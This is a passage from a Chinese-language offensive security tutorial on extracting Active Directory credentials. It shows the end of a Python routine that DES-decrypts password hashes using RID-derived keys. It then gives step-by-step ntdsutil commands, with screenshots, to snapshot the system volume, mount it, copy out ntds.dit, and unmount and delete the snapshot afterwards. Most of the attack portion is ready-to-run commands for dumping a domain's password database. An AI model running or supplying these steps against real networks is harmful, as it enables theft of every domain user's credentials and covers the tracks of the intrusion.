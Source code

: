     
    (des_k1，des_k2)= sid_to_key(rid)  
      
    d1 = DES.new(des_k1，DES.MODE_ECB)  
      
    d2 = DES.new(des_k2，DES.MODE_ECB)  
      
    hash = d1.decrypt(denc_hash) [：8])+ d2.decrypt(denc_hash [8：])

注意，必须具有用户的SID才能确定RID并计算用于DES的密钥。

# 抓取ntds.dit

## 通过ntdsutil.exe提取ntds.dit

创建快照

    
    
    ntdsutil snapshot "activate instance ntds" create quit quit

![](https://gitee.com/fuli009/images/raw/master/public/20220419115507.png)

挂载快照

    
    
    ntdsutil snapshot "mount {b425cef1-c73c-4be5-ad86-522c27a18180}" quit quit

![](https://gitee.com/fuli009/images/raw/master/public/20220419115508.png)

复制ntds.dit

    
    
    copy C:\\$SNAP_202104180958_VOLUMEC$\windows\NTDS\ntds.dit c:\ntds.dit

![](https://gitee.com/fuli009/images/raw/master/public/20220419115509.png)

可以看到在c盘下面已经把ntds.dit复制了出来

![](https://gitee.com/fuli009/images/raw/master/public/20220419115510.png)

点进去看一下是完全一样的

![](https://gitee.com/fuli009/images/raw/master/public/20220419115512.png)

卸载快照

    
    
    ntdsutil snapshot "unmount {b425cef1-c73c-4be5-ad86-522c27a18180}" quit quit

![](https://gitee.com/fuli009/images/raw/master/public/20220419115513.png)

删除快照

    
    
    ntdsutil snapshot "delete {b425cef1-c73c-4be5-ad86-522c27a18180}" quit quit
